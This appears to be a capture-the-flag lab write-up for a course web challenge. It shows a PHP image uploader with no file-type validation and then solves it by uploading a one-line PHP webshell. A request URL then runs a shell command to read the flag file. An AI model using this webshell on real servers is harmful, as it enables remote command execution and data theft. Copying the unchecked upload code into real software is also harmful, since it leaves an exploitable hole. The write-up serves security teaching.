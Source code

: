 ```yaml
---
title: Simple Web 0x04(Lab - Image Space 0x01)
tags: [NTUSTWS, CTF, Web]

---
```


# Simple Web 0x04(Lab - Image Space 0x01)
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:9010

## Source code
:::spoiler code
```php!=
 <?php
    if (isset($_GET['source'])) {
        highlight_file(__FILE__);
        exit;
    }
?>
<h1>Image Uploader</h1>
<p>Only supports: jpg, jpeg, png</p>
<!-- upload form -->
<form action="index.php" method="POST" enctype="multipart/form-data">
    <input type="file" name="image_file">
    <input type="submit" value="Upload">
</form>
<p>
    <a href="/?source">View Source</a>
</p>
<?php
    if (!isset($_FILES['image_file'])) {
        die('Give me a file!');
    }

    $filename = basename($_FILES['image_file']['name']);

    $prefix = bin2hex(random_bytes(8));
    move_uploaded_file($_FILES['image_file']['tmp_name'], "images/${prefix}_${filename}");
    echo "<img src=\"images/${prefix}_${filename}\">";
?>
```
:::

There's no any protection. Therefore, upload `webshell` and get shell
## Exploit - `webshell`
Payload: `<?php system($_GET["sh"]); ?>`
`view-source:http://h4ck3r.quest:9010/images/09956fc7c4f424b0_simple.php?sh=cat%20../../../../flag`
